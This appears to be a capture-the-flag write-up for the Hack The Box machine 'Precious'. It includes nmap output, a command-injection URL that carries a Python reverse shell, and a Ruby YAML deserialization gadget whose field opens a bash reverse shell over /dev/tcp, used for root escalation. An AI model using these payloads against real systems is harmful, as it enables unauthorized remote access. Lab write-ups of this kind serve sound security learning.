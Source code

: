 ```yaml
---
title: Hack The Box - Precious
tags: [HTB, Webapp Exploit, nmap, Python]
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
layout: post
---
```


Some Description

## Summary
- Information Gathering
    - Nmap Scanning
- Exploit CVE for Vulnerable Version
- Privilege Escalation

---

## Information Gathering Stage
### Nmap Scanning 
`sudo nmap -sV 10.10.11.189 -p-`

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
## Exploiting Stage
Web redirect to precious.htb → add record to hosts
`echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts`
Checking around the machine, we are gather a lot of information useful like: nginx 1.18.0, port 80,22, Function Convert remote file to PDF, ...
Let's check version it! :) We have a traffic to getshell low privilege escalation

*** Check pdf version ***
```sh
#exiftool file_name.pdf 
ExifTool Version Number         : 12.57
File Name                       : file_name.pdf
File Size                       : 23 kB
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
...
Creator                         : Generated by pdfkit v?.?.?
```

Just do google search to getshell.

```bash
http://10.10.14.8/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'
```

Get shell → swap user `ruby` to `henry` (credential at .bundle in /homw/Henry folder)

User.txt: `********************************`

## Privilege Escalation

---

Transfer File linpeas.sh

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.189 - - [19/Apr/2023 22:49:13] "GET /linpeas.sh HTTP/1.1" 200 -
```

SUID

```bash
-rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent                                                                                                                                                                                  
-rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /usr/bin/bash
```

`Sudo -l`

```bash
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby **/opt/update_dependencies.rb**
```

Cat  **`/opt/update_dependencies.rb`**

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9999 0>&1'"
         method_id: :resolve
```

It execute command at line in the end of file (git_set) → change value into Reverse shell (bash).

### Listen and run file

```bash
nc -nlvp 9999
```

```bash
sudo ruby /opt/update_dependencies.rb
```

Root.txt: `********************************`